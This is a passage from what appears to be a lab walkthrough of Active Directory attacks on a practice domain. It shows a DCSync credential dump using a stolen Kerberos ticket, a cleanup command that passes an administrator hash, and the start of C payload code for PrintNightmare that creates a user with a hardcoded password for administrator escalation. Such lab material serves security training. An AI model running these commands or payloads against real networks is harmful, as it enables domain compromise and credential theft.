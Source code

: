 DCSync by presenting the service ticket

```
export KRB5CCNAME=/workspace/administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
secretsdump.py -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
```

Now clean up by deleting the computer we created with the administrator account hash we just got

```
addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'
```

## PrintNightmare

we will first check if the spooler is active on targets: `crackmapexec smb <ip or file> -M spooler | tee logs/cme-spooler.log`

Payload to add a user to the administrators group:

```
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE

#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>


DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare2");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,            // local server
```